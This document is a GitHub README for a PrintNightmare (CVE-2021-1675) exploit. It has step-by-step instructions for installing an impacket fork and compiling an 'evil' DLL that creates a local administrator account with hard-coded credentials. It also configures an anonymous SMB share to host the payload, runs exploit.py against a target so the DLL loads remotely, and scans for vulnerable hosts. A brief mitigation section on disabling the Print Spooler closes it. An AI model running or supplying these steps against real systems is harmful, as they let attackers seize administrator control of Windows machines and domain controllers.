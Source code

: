 # CVE-2021-1675

Borrowed from [cube0x0]()https://twitter.com/cube0x0 impacket fork: https://github.com/cube0x0/CVE-2021-1675  

### Install

```
pip3 uninstall impacket
git clone --branch PrintNightmare https://github.com/LuemmelSec/impacket
cd impacket
python3 -m pip install .
apt install mingw-w64
```

### Build DLL (64 bit)
I used this version: https://github.com/newsoft/adduser  

You can use the evil32.dll or evil64.dll under ./DLL
Username: PWND  
Password: B@dPass123!

Or build your own:  
```
cd DLL  
cp Tchar.h /usr/x86_64-w64-mingw32/include/
cp Lmaccess.h /usr/x86_64-w64-mingw32/include/
cp Tchar.h /usr/i686-w64-mingw32/include
cp Lmaccess.h /usr/i686-w64-mingw32/include/
```

Edit the evil.c to your needs:  
- change username & password  
- change name of the local admin group -> language dependant  

Build the DLL  64 bit:  
```
x86_64-w64-mingw32-gcc -shared -oevil64.dll evil.c -lnetapi32
cp evil64.dll /tmp/
```

Build the DLL 32 bit:  
```
i686-w64-mingw32-gcc -shared -oevil32.dll evil.c -lnetapi32
cp evil32.dll /tmp/
```

### SMB configuration

#### Linux  

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf   ` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

Start SMB Service
```
service smbd start
```

#### Windows

But you can also go the Windows route.  
You may use the following scripts to make all needed changes according to the languages:  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_de.ps1  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_en.ps1  

Tested on Windows 10, but should work on all other Windows versions.  

### exploit.py

```
python3 exploit.py mcafeelab.local/lowpriv@10.55.0.1 '\\10.55.0.30\smb\evil64.dll'
```


### Scanning

We can use `rpcdump.py` from impacket to scan for vulnerable hosts, if it returns a value, it's vulnerable 

```
rpcdump.py @192.168.1.10 | grep MS-RPRN

Protocol: [MS-RPRN]: Print System Remote Protocol
```

### Mitigation

Disable Spooler service (might not be suitable on systems where local printing like PDF printers are needed - so test it).  
And please: NO FCKN DCs NEED THIS SERVICE!!!  

```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

Or Uninstall Print-Services

```powershell
Uninstall-WindowsFeature Print-Services
```

### Further reading / tools  
[Kevin Beaumont](https://twitter.com/GossiTheDog) gathered the most relevant facts and collected them here:  
https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c

[Marcello](https://twitter.com/byt3bl33d3r) build a tool to scan for vulnerable systems from linux without actually exploiting them:  
https://github.com/byt3bl33d3r/ItWasAllADream  

[Benjamin Delpy](https://twitter.com/gentilkiwi) integrated the attack in the newest version of [mimikatz](https://github.com/gentilkiwi/mimikatz).  
